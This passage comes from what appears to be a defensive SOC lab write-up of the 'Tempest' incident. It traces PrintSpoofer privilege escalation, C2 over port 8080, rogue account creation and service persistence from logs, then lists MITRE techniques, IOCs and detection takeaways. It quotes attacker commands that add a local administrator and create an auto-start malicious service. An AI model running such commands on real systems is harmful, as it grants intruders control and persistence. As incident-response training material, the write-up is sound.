tool.





**Answer: spf.exe — 8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D**

---

### Privilege Escalation Tool

Using VirusTotal to look up the hash confirms the tool name.





**Answer: PrintSpoofer**

---

### Exploited Privilege

Looking at the execution logs for spf.exe reveals the privilege being exploited.




**Answer: SeImpersonatePrivilege**

---

### Post-Escalation Binary

Filtering using DNSEvent, Network Connection, and Process Creation to see the
events leading up to a new connection. We know the actor used a binary for
privilege escalation so let's see what happened after.


**Answer: final.exe**

---

### C2 Port After Escalation

We know the first connection uses port 80. By using a targeted filter, we can
see the WebSocket connection used by the attacker post-escalation.


**Answer: 8080**

---

## Stage 6 — Persistence & Account Creation


### New Accounts Created

We know the user now has SYSTEM access. Filtering the username to SYSTEM and
knowing that the parent process of these executions came from final.exe, we find
two new accounts being created.


**Answer: shion, shuna**

---

### Failed Command Flag

Looking at the net user commands, we can see there's nothing being done here
because they failed to place **/add**. We can also use Brim logs to verify this.


**Answer: /add**

---

### Account Creation Event ID

Event ID 4720 signals a successful user account creation in Windows Security
logs.


**Answer: 4720**

---

### Adding to Administrators Group

Just by scrolling through the log we see the exact command, then verifying
through Brim confirms it.


**Answer: net localgroup administrators /add shion**

---

### Group Membership Event ID


**Answer: 4732**

---

### Persistence Mechanism

Looking at the logs executed under final.exe, we see the attacker creating a
service for persistence — and then verifying it was set up correctly.


**Answer: C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto**

---

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|---|---|---|
| Phishing: Spearphishing Attachment | T1566.001 | Malicious .doc delivered via phishing |
| Exploitation for Client Execution | T1203 | CVE-2022-30190 (Follina) via msdt.exe |
| Command and Scripting: PowerShell | T1059.001 | PowerShell used for staging and download |
| Ingress Tool Transfer | T1105 | certutil used to download first.exe, final.exe |
| Web Service C2 | T1071.001 | C2 over HTTP via resolvecyber.xyz |
| Protocol Tunneling | T1572 | Chisel used for SOCKS tunneling over port 8080 |
| Abuse Elevation: SeImpersonatePrivilege | T1548.002 | PrintSpoofer for privilege escalation |
| Create Account: Local Account | T1136.001 | shion and shuna accounts created |
| Create/Modify System Process | T1543.003 | TempestUpdate2 service created for persistence |

---

## IOCs

| Type | Value |
|---|---|
| Malicious Document | `free_magicules.doc` |
| Phishing Domain | `phishteam.xyz` |
| C2 Domain | `resolvecyber.xyz:80` |
| C2 IP | `167.71.199.191` |
| Staging IP | `167.71.222.162` |
| first.exe SHA256 | `CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8` |
| spf.exe SHA256 | `8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D` |
| chisel SHA256 | `8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451` |
| CVE | CVE-2022-30190 (Follina) |
| Created Accounts | `shion`, `shuna` |
| Persistence Service | `TempestUpdate2` |

---

## Key Takeaways

- **Follina (CVE-2022-30190)** — This exploit abuses the Microsoft Support
  Diagnostic Tool (`msdt.exe`) to achieve code execution directly from a Word
  document without macros. It's a good reminder that disabling macros alone
  isn't enough — document-based attacks have evolved beyond that.

- **LOLBin abuse throughout the chain** — The attacker used `msdt.exe`,
  `certutil`, and PowerShell at different stages. These are all trusted Windows
  binaries which makes detection harder at the AV level. Behavioral detection
  and process lineage monitoring are far more effective here.

- **Base64 encoding as evasion** — The initial payload and C2 commands were
  Base64 encoded. CyberChef is your best friend for quickly decoding these
  during an investigation. Getting comfortable with spotting encoded strings in
  logs is a core SOC skill.

- **Pivoting through process relationships** — A huge part of this investigation
  relied on PPID chaining. Knowing that the malicious document had PID 496 let
  us trace everything it spawned downstream. Process trees are one of the most
  valuable artifacts in Windows IR.

- **Chisel for tunneling** — The attacker used Chisel to create a SOCKS tunnel
  for lateral movement, which is a common red team and threat actor TTP. Seeing
  unusual outbound connections to high ports (8080) from non-browser processes
  is a detection signal worth building alerts around.

- **PrintSpoofer for privesc** — Abusing `SeImpersonatePrivilege` via
  PrintSpoofer is a well-known post-exploitation technique. Any account running
  services with this privilege is a potential escalation path — worth flagging
  in a hardening review.

- **Persistence via service creation** — The attacker created `TempestUpdate2`
  as an auto-start service pointing to their payload. Monitoring for new service
  creations (`sc.exe create`) especially with `start= auto` is a reliable
  detection opportunity.

- **Full attack chain visibility** — What made this lab valuable was tracing the
  entire kill chain end-to-end: phishing → execution → staging → C2 → lateral
  movement → privesc → persistence. In a real SOC environment, being able to
  connect those dots across multiple log sources is what separates a good
  investigation from a shallow one.

---

## Notes and Thoughts

Tempest has been one of the harder tasks in the capstone level for the SOC L1
Analyst Certification path. Timeline Explorer is a good tool but I had some time
adjusting to it. There was a lot of searching on my part which led me to see
unusual command executions — however I don't think my approach was the most
efficient. I know where to look, but knowing exactly what to search for is
something I should improve on. Overall this was a good lab!